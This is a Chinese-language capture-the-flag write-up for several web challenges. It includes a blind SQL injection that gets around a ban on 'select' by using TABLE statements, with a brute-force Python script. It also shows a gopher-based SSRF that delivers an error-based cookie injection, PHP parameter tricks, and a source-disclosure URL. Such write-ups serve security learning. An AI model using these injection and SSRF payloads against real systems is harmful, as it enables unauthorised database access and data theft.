

# easy_sql_2

登录功能，post传username和password。尝试admin,admin弱口令登录成功但是提示flag并不在这里。

username尝试`-1'||'1'%23`发现是password error!，因此猜测后端的应该是根据传入的username查出对应的password，查到了就不再是username error!，然后讲传入的password进行一次md5后与这个password比较，相同就登录成功。

尝试SQL注入，但是ban了select，因此利用table注入。

数据库名的话很好注入，直接不用table用regexp也可以注出是ctf了，然后开始注表名。

虽然过滤了tables，但是columns没有过滤，可以利用informaion_schema.columns来盲注出表名：

```sql
-1'||(('def','ctf','fl11aag','','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#
```

按位一次爆破即可得到`fl11aag`，列名的话不重要就不爆了。

然后就是爆内容，经过测试只有一列，但是却有2行数据，第一行数据是假flag：

```sql
-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#
```

写个脚本爆破即可，脚本没有对最后一位进行处理，爆出结果后手动改一下即可：

```python
import requests
import string
from time import sleep

def strtohex(s):
    ss = "0x"
    for i in s:
        ss +=  str(hex(ord(i))).replace("0x",'')
    return ss
url="http://182.116.62.85:26571/login.php"

flag="flag{"
for i in range(10000):
    #for j in ".-0123456789abcdefghijklmnopqrstuvwxyz0123456789{|}~":
    for j in range(19,128):
        #payload="-1'||(('def','ctf','fl11aag','{}','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#".format(flag+j)
        payload="-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#".format(strtohex(flag+chr(j)))
        data={
            "username":payload,
            "password":"1"
        }

        r=requests.post(url=url,data=data)
        #print(r.text)
        if "username" in r.text and "try" not in r.text:
            #print(r.text)
            #print(payload)
            #print(j)
            flag+=chr(j-1)
            print(flag)
            break

```


# middle_magic

一血，没啥好说的。。。。考了一遍又一遍的trick。

```
?aaa=%0apass_the_level_1%23

admin[]=1&root_pwd[]=2&level_3={"result":0}
```


# easy_sql_1

一血，很简单的套娃题，但是是做出来最少的Web。。感觉是那个注入点太阴间了。

老登录界面，说不是inner所以不行，f12看到use.php，进去有个ssrf，利用gopher协议打post然后adminadmin登录后发现给了cookie:`this_is_your_cookie=YWRtaW4=`，把cookie带上

再经过一些尝试发现post没什么回显，尝试cookie是不是可以注入，将`admin'`base64加密后填上去再访问，直接SQL语句报错，用的sqli-labs的库，直接报错注出flag即可：

```python
import requests
from urllib.parse import quote

data="""POST / HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Cookie: this_is_your_cookie=LTEnKXx8dXBkYXRleG1sKDEsY29uY2F0KDEsKHNlbGVjdCBncm91cF9jb25jYXQoZmxhZykgZnJvbSBmbGFnKSwxKSwxKSM=;PHPSESSID=susn9dj4f1806v0pl5oiureek1;
Content-Length: {}

{}
"""
payload="uname=admin&passwd=admin"
length=len(payload)
data=data.format(length,payload)
data=quote(data,'utf-8')
url="http://182.116.62.85:28303/use.php"
params={
    'url':"gopher://127.0.0.1:80/_"+data
}
headers={
    'Cookie':"PHPSESSID=8t4ppbs8ek3l5v5estgbttqtu3"
}

r=requests.get(url,params=params,headers=headers)
print(r.text)
```


# EasyP

原题魔改，参考连接：https://www.gem-love.com/ctf/1898.html

直接打：`http://182.116.62.85:21895/index.php/utils.php/%81?show[source`


# Spring

XMAN的原题。。。

参考文章：http://blog.cyberpeace.cn/Spring-Web-Flow/

照着打就行。。。

